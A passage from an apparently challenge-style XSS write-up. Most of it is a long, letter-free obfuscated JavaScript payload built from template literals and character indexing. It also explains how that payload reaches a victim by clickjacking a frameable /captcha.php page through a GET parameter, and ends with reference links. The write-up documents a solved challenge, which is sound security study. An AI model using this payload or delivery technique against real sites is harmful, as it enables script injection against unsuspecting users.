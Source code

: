 [[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]`$${[e+``, e-1+``][1][1]+[e+``, e-1+``][0][21]+[e+``, e-1+``][0][22]+[e+``, e-1+``][0][16]+[e+``, e-1+``][0][26]+[``+[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]][0][14]+[[][[]]+``][0][2]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][5]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][23]+[e+``, e-1+``][0][22]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][6]+`.`+[[][[]]+``][0][2]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][23]+[e+``, e-1+``][1][1]+[[][[]]+``][0][5]+[e+``, e-1+``, [][[]]+``][2][1]+[``+[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]][0][15]}$```
```

#### Final payload in action
![Final payload](Final_payload.png)

## Final poc #

Now we can deliver the payload to victim in conjuction in a clickjacking vulnerability because the **/captcha.php** page is frameable by any domain and we can append arbitrary parameter input via the `GET` request. I used burps clickbandit to generate the final payload see attached HTML for final payload.


## Thoughts #
This was a fun challenge and I'm quite happy that I managed to solve it. 

Also i realize there is some optimization to my payload, but i was lazy and too scared that I will break something by modifying it. 


## Supporting Material #
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals [0]
https://github.com/denysdovhan/wtfjs#its-a-fail [1]
https://techiavellian.com/constructing-an-xss-vector-using-no-letters[2]
https://portswigger.net/research/executing-non-alphanumeric-javascript-without-parenthesis [3]
